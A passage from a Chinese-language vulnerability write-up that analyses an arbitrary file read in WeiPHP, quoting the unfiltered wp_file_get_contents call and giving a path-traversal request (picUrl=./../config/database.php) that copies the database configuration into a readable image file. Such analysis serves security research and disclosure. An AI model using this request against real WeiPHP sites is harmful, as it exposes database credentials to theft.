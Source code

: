 ```php
                $cover_id = do_down_image($media_id);
                if (!$cover_id) {
                    return 0;
                    exit();
                }
            }
```



分析传入变量 **picUrl** 的 **wp_file_get_contents**方法



```php
$content = wp_file_get_contents($picUrl);
```



函数文件位置 **application\common.php**



![img](../../../.vuepress/public/img/weiphp-4.png)



可以看到这里没有对我们的参数进行过滤，只做了一个有关超时的操作, 回到函数继续向下分析



```php
$picExt = substr($picUrl, strrpos($picUrl, '=') + 1);
if (empty($picExt) || $picExt == 'jpeg' || strpos('jpg,gif,png,jpeg,bmp', $picExt) === false) {
                $picExt = 'jpg';
}
$picName = NOW_TIME . uniqid() . '.' . $picExt;
$picPath = $savePath . '/' . $picName;
$res = file_put_contents($picPath, $content);
```



这里创建了有关当前时间的图片文件，并写入文件夹**/public/uploads/picture/** 下



我们先尝试控制变量 **$picUrl** 来写入数据库配置文件到图片中



```plain
/public/index.php/material/Material/_download_imgage?media_id=1&picUrl=./../config/database.php
```



![img](../../../.vuepress/public/img/weiphp-5.png)



查看目录**/public/uploads/picture/**，并用记事本打开写入的jpg文件



![img](../../../.vuepress/public/img/weiphp-6.png)
